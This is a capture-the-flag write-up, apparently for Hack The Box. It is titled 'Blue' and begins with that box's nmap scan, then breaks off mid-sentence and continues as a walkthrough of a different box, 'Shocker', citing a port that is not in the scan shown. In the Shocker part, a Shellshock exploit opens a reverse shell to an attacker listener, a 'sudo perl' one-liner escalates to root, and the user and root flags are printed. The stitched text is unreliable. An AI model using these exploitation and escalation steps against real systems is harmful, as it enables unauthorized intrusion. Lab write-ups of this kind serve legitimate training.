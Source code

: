 # Blue
#### 10.10.10.40

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.40

Nmap scan report for 10.10.10.40
Host is up (0.16s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.19 seconds
```


We can see there is no webserver running, but there is windows rpc and smb, if we search up smb exploits we can see a new exploit called EternalBlue like the name of the machine,
which was the exploit used in the famous wannacry ransomware, if we searc
The port 2222 running a ssh looks interesting however OpenSSH 7.2p2 only has a User Enumeration POC

Time to bring out **Dirbuster**

After a scan with a medium wordlist nothing juicy was found.
It had the normal cgi folders and images folders

The name of the box looks suspicious though. Must be a shellshock vuln!

After a little google dorking we find something like this:
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")

The first three points look perfect for our system. AND for the last point we need a bash script.
Dirbuster the great can help us search with file extensions
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/dirbuster.png "Dirbuster")

Now we got a presumably vulnerable bash script

**Time to go hunting**

Searchsploiting apache mod cgi gives us 34900.py
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/searchsploit.png "Searchsploit")


The python script won't work out of the box though. We need to add the vulnerable bash script into the the scope.
We add it under the pages array

![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/adding_pages.png "Adding Pages")



**And we go exploiting**
```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Shocker# python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.xx lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> ifconfig
ens33     Link encap:Ethernet  HWaddr 00:50:56:aa:13:57  
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feaa:1357/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feaa:1357/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:12028204 errors:0 dropped:511 overruns:0 frame:0
          TX packets:10213659 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:1945868761 (1.9 GB)  TX bytes:2286172156 (2.2 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:352786 errors:0 dropped:0 overruns:0 frame:0
          TX packets:352786 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:26113324 (26.1 MB)  TX bytes:26113324 (26.1 MB)
```



We got **_shellz_**

```{r, engine='bash', count_lines}
10.10.10.56> ls /home
heba
shelly

10.10.10.56> cd /home/shelly
10.10.10.56> ls -lah
total 84K
drwxr-xr-x 6 shelly shelly 4.0K Oct  9 04:59 .
drwxr-xr-x 4 root   root   4.0K Oct  9 06:21 ..
-rw------- 1 root   root      0 Sep 25 08:29 .bash_history
-rw-r--r-- 1 shelly shelly  220 Sep 22 12:33 .bash_logout
-rw-r--r-- 1 shelly shelly 3.7K Sep 22 12:33 .bashrc
drwx------ 2 shelly shelly 4.0K Sep 22 12:35 .cache
drwxrwxr-x 2 shelly shelly 4.0K Sep 22 15:49 .nano
-rw-r--r-- 1 shelly shelly  655 Sep 22 12:33 .profile
-rw-r--r-- 1 root   root     66 Sep 22 15:43 .selected_editor
drwx------ 2 shelly shelly 4.0K Oct  8 21:49 .ssh
-rw-r--r-- 1 shelly shelly    0 Sep 22 12:35 .sudo_as_admin_successful
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:06 doubleput
drwxr-xr-x 2 root   root      0 Dec 31  1969 fuse_mount
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:05 hello
-rwxr-xr-x 1 shelly shelly 8.5K Oct  8 22:05 suidhelper
-rw-r--r-- 1 root   root     33 Sep 22 15:37 user.txt

10.10.10.56> cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

**Priv Esc**
We check shellys home directory and we see that sudo as admin successful is present
Lets check with sudo -l on what privs shelly actually has
```{r, engine='bash', count_lines}
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Oh Snap!
Shell has root access for perl. Seems legit  :wink:

So we should technically get root if we spawn a tty using perl
```{r, engine='bash', count_lines}
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)

10.10.10.56> cd /root
10.10.10.56> ls -lah
total 32K
drwx------  4 root root 4.0K Sep 22 15:36 .
drwxr-xr-x 23 root root 4.0K Sep 22 12:43 ..
-rw-------  1 root root    0 Sep 25 08:23 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Sep 22 15:36 .cache
drwxr-xr-x  2 root root 4.0K Sep 22 15:33 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Sep 22 15:36 root.txt
-rw-r--r--  1 root root  170 Sep 22 15:59 .wget-hsts

10.10.10.56> cat root.txt
52c2715605d70c7619030560dc1ca467
```

